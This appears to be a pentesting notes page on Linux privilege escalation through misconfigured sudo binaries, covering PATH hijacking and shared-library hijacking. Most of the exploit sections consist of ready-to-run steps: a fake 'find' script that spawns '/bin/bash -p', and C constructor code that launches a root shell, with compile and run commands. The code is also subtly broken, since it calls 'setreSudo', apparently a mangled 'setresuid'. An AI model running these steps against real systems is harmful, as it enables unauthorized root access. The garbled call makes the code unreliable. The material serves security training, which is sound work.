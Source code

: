 # SUDO Binaries

## Theory

Sudo is a widely used tools that allows regular users to execute commands with elevated privileges on Linux. Privileges escalation can occur if the binaries that you can run with sudo is not properly setup

## Practice

### Known Sudo Binaries Exploits

{% tabs %}
{% tab title="GTFOBins" %}
If you find that a binary have the Sudo bits, you can check on [GTFOBins](https://gtfobins.github.io/) for known Sudo exploits.
{% endtab %}
{% endtabs %}

### No Command Path Exploit

{% tabs %}
{% tab title="Enumerate" %}
If a **Sudo** binary executes another command **without specifying the path.** We can abuse it and get a privilege escalation.

You may use `strings` to spot other binaries calls, or do some reverse engineering on the **Sudo** binary.

```bash
strings ./the-sudo-bin

...
find
...
```
{% endtab %}

{% tab title="Exploit" %}
We can create a malicious executable with the same name as the one called by the **Sudo** binary.

```bash
echo '/bin/bash -p' > /tmp/find
chmod +x /tmp/find
```

\
Then, set the **PATH** env variable before executing the Sudo binary.

```bash
#Sudo with modified PATH
export PATH=/tmp:$PATH 
./the-sudo-bin
```
{% endtab %}
{% endtabs %}

### Shared Library Hijacking

{% tabs %}
{% tab title="Enumerate" %}
If you find some binary with **Sudo** permissions, you could check if all the **.so** files are **loaded correctly**

```bash
strace the-sudo-bin 2>&1 | grep -i -E "open|access|no such file"
```

You also could check if the **Sudo** binary is loading a library from a folder **where we can write**:

```bash
# Lets find a Sudo using a non-standard library
ldd the-sudo-bin
something.so => /lib/x86_64-linux-gnu/something.so

# The Sudo also loads libraries from a custom location where we can write
readelf -d the-sudo-bin | grep PATH
0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

Alternatively, you could use the `strings` command to find used shared library

```bash
strings ./the-sudo-bin | grep -i '*.so*'
```
{% endtab %}

{% tab title="Exploit" %}
For example, if you find that the **Sudo** binary **doesn't** **load correctly** _`/home/user/.config/libcalc.so`_ or that you can overwrite it, you can exploit it.

Write a malicious shared library

```c
//Saved to /home/user/.config/libcalc.c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        setreSudo(0,0,0);
        system("/bin/bash -p");
}
```

Compile it

```bash
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
```

Execute the Sudo binary

```bash
sudo ./the-sudo-bin
```

{% hint style="info" %}
If you get an error such as

```shell-session
./Sudo_bin: symbol lookup error: ./Sudo_bin: undefined symbol: a_function_name
```

that means that the library you have generated need to have a function called `a_function_name`.
{% endhint %}
{% endtab %}
{% endtabs %}


### References

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#sudo" %}

{% embed url="https://tryhackme.com/room/linuxprivescarena" %}

{% embed url="https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/" %}
